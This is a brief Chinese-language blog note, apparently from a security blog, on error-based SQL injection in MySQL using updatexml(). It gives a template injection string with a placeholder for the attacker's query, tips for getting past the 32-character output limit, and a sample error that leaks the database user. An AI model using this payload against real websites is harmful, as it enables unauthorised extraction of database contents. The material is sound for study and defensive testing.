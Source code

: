 ```yaml
---
title: "MySQL updatexml 注入"
date: 2018-02-07T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['mysql','sqli']
categories: ['web']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


MySQL updatexml 注入

<!--more-->

`UPDATEXML (XML_document, XPath_string, new_value); `

XPath_string: Xpath 语法.

`id=1 and updatexml(1,concat(0x7e,(PAYLOAD),0x7e),1)`

PAYLOAD 自行替换 记得加上 limit.

updatexml() 最大返回 32 位 可以用 left() or substr() mid() 来截取后面的内容.

`XPATH syntax error:'~root@localhost~'`